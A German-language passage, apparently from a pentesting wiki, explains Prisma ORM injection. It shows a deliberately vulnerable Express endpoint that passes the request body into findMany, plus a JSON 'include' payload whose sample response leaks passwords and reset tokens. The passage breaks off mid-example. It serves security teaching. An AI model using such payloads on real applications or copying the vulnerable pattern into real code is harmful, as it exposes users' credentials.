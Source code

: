 * **SQLite**: Hat standardmäßig keinen regexp-Operator (erfordert das Laden einer Drittanbietererweiterung)
* **PostgreSQL**: Hat keinen standardmäßigen Regex-Timeout und ist weniger anfällig für Backtracking
* **MariaDB**: Hat keinen Regex-Timeout

## Prisma ORM (NodeJS)

Die folgenden sind [**Tricks, die aus diesem Beitrag extrahiert wurden**](https://www.elttam.com/blog/plorming-your-primsa-orm/).

* **Vollständige Suchkontrolle**:

<pre class="language-javascript"><code class="lang-javascript">const app = express();

app.use(express.json());

app.post('/articles/verybad', async (req, res) => {
try {
// Angreifer hat vollständige Kontrolle über alle Prisma-Optionen
<strong>        const posts = await prisma.article.findMany(req.body.filter)
</strong>        res.json(posts);
} catch (error) {
res.json([]);
}
});
</code></pre>

Es ist möglich zu sehen, dass der gesamte JavaScript-Body an Prisma übergeben wird, um Abfragen durchzuführen.

Im Beispiel aus dem ursprünglichen Beitrag würde dies alle Beiträge überprüfen, die von jemandem erstellt wurden (jeder Beitrag wird von jemandem erstellt) und auch die Benutzerinformationen dieser Person zurückgeben (Benutzername, Passwort...)
```json
{
"filter": {
"include": {
"createdBy": true
}
}
}

// Response
[
{
"id": 1,
"title": "Buy Our Essential Oils",
"body": "They are very healthy to drink",
"published": true,
"createdById": 1,
"createdBy": {
"email": "karen@example.com",
"id": 1,
"isAdmin": false,
"name": "karen",
"password": "super secret passphrase",
"resetToken": "2eed5e80da4b7491"
}
},
...
]
```
Die folgende Abfrage wählt alle Beiträge aus, die von jemandem mit einem Passwort erstellt wurden, und gibt das Passwort zurück:
```json
{
```